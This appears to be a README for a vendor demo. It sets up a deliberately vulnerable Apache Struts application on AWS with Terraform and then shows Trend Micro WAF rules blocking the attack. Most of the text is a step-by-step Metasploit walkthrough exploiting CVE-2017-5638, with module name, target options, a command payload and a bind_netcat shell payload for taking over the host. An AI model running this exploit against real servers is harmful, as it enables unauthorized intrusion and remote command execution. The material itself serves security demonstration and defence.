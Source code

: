 ##Overview
This demo is created to exploit apache struts with CVE-2017-5638. It will deploy vulnerable struts version with sample demo application on AWS.
Demo is created for 3 AWS regions (Ohio, Oregon, Ireland) with default Ohio region setup. AMI images used in Demo is available in these 3 regions as public AMIs.
In order to setup the environment few hardcoded modifications need to be done on terraform code.

 
##Pre-requisites:
- AWS IAM account with administrator access
- Terraform need to be deployed on user's system with basic configuration
- Metasploit with latest msfupdate in attacker machine.
- if you are setting uo victim outside AWS then you can use following blog post for victim setup.
  http://blog.ud64.com/2017/09/apache-struts-with-cve-2017-5638-set-up.html

NOTE: if in case tomcat service is not started. you can login to EC2 instance and start the same using "#sudo $CATALINA_HOME/bin/startup.sh"

##Hardcoded modifications
- user_data.sh is a bootstrap script which can be modify to add Trend Micro DS agent configuration  
- EC2 Keys are stored in /Scripts directory. you can use the .pem or .ppk to login to EC2 instance over the internet.

##Generic steps for victim setup:
#step 1
Deploy terraform template on AWS using terraform plan and terraform apply.
# terraform init
# terraform apply

#2
Victim domain name will be available in terraform apply output. we have to use the same during our attack 
We have configured proxy with ELB to convert port 8080 to 80.  

#3
Application URL is configured as struts2_2.3.15.1-showcase/showcase.action

#4
We can use generic payload for the demo.

set PAYLOAD cmd/unix/generic
set CMD "touch /tmp/hackedsystemexec64"
set PAYLOAD cmd/unix/bind_netcat


##Exploit demo execution steps:
#Step 1:Open metasploit in attacker system 

#step 2: search for the CVE-2017-5638
msf>search CVE-2017-5638

#step 3: use the exploit
msf> use exploit/multi/http/struts2_content_type_ognl

#step 4: configure the application paramenter in exploit options
msf exploit> show options
msf exploit> set RHOST <Domain name of cloudfront> 
msf exploit> set RPORT 80
msf exploit> set TARGETURI struts2_2.3.15.1-showcase/showcase.action
msf exploit> show options


#step 5: configure payload
msf exploit> set PAYLOAD cmd/unix/generic
msf exploit> show payload
msf exploit> set CMD "touch /tmp/hackedsystemexec64"
msf exploit> exploit

Also taking over the system can be possible
msf exploit> set PAYLOAD cmd/unix/bind_netcat
msf exploit> exploit

cmd> id
cmd> whoami


#step 6: SSH to public ip of victim server and show the affected file



Complete!!!.. now show the protection with Deep security and/or Trend Micro managed WAF rules. 

---------------------------Protection with Trendmicro managed WAF rules or with DS---------

NOW, Login to AWS WAF portal and click on Web ACLs 
-> select Trendmicro-Managed-Rule-ACL
-> select rules tab in right side
-> edit ACL and select Trendmicro managed WAF rule (Apache and Ngnix)
-> now run the exploit again. it should fail